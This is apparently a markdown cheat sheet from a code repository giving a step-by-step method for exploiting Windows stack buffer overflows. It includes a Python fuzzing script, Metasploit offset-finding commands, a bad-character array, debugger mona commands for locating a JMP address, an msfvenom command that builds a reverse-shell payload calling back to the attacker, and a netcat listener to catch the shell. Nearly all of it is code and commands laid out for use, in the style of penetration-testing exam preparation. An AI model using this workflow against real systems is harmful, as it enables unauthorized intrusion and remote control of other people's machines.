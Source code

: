 ## Buffer Overflow

### Finding the buffer overflow

Send large amounts of information to any available input parameters.  You're looking for the program to exit from an unhandled exception.

#### Sample Python fuzzing script
```
#!/usr/bin/python

# this is a very general python script that connects to a host/port and sends a payload.  It needs to be customized for the particular inputs to be tested in the applciation.

import sys, socket
HOST = <host or ip address>
PORT = <service port>
LENGTH = <length of buffer payload>

payload = "\x41" * LENGTH

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send(payload)
s.recv(1024)
s.close()
```

#### Finding an offset value for EIP

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

# check the value stored in EIP and pass it to the pattern_offset tool

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <eip value> <length>
```

#### Verify EIP
```
# configure payload with the offset value
# using the python script above

offset = "\x41" * <offset value> 
EIP = "\x42\x42\x42\x42"
Payload = offset + EIP

# Run the script and check the EIP value.  If it indicates 'BBBB', we are able to write to EIP using the offset.

```

#### Finding where to place shellcode
```
# configure a test payload including the offset and EIP values 
# using the python script above

offset = "\x41" * <offset value> 
EIP = "\x42\x42\x42\x42"
shellcode = "\x43" * <length>
Payload = offset + EIP + shellcode

# run the script and check the stack.  if the 'C' values are present beyond the 'B' values, we have identified space for shellcode.  
# Identify whether an existing register is pointing to the shellcode space in the stack.
```

##### Generate bad characters

```
#! /usr/bin/python3
import sys
for x in range(1,256):
    sys.stdout.write("\\x" + '{:02x}'.format(x))
```
Execute the script and copy the output to paste into `ollydbg`  

or simply copy and paste the array below:

```
badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

##### Create a bytearray of badcharacters in ollydbg

```
# at the ollydbg command window

# create a bytearray of all available hexideciaml characters
!mona bytearray -b
```
##### Identify the memory location of the badcharacter array sent

```
# at the ollydbg command window

# using the memory address of the badcharacter array, pass it to mona and compare to our previously created bytearray
!mona compare -f bytearray.bin -a <memory address>
```
##### Verify the bad characters identified
```
# configure a test payload to exclude the known bad characters 
# using the python script above

offset = "\x41" * <offset value> 
EIP = "\x42\x42\x42\x42"
shellcode = "string of all hex characters excluding the identified bad characters"  
Payload = offset + EIP + badchars

#Execute the script  
```

##### Verify the remaining hex characters are valid

```
# at the ollydbg command window

# using the memory address of the badcharacter array, pass it to mona and compare to our previously created bytearray
!mona compare -f bytearray.bin -a <memory address>
```
##### Identify a JMP or CALL instruction to the shellcode memory address

```
# at the ollydbg command window

!mona jmp -r <memory address or register> -cpb "<bad characters>"
# return pointers are candidates for the EIP value

# to test the values, set a breakpoint at the JMP instruction address and then modify the python script with the memory address as the EIP value.  
# Remember the addresses are expressed in little endian, so they have to be entered in reverse.
# for example, a memory address of 565266B3 would be expressed as:
# EIP = "\xb3\x66\x52\x56" in the python script.
# if the breakpoint is reached after running the python script, proceed to the next step.
```

##### Generate shell code

```
# sample stageless reverse shell for windows
msfvenom -p windows/shell_reverse_tcp LHOST=<local ip> LPORT=<local listening port> EXITFUNC=thread -b "<badcharacters>" -f py

# add the output to the script.  It may also be necessary to add some NOPs prior to the shellcode in case the JMP instruction is not exact.


offset = "\x41" * <offset value> 
EIP = "<memory address for JMP to shellcode"
shellcode = "<shellcode output from msfvenom command"  
nops = "\x90" * 10 # experiment for number of nops as needed
Payload = offset + EIP + nops + shellcode
  
```
##### Start the remote listener and execute the script
```
nc -lvp <port>

# if it all works, you'll get a shell
```
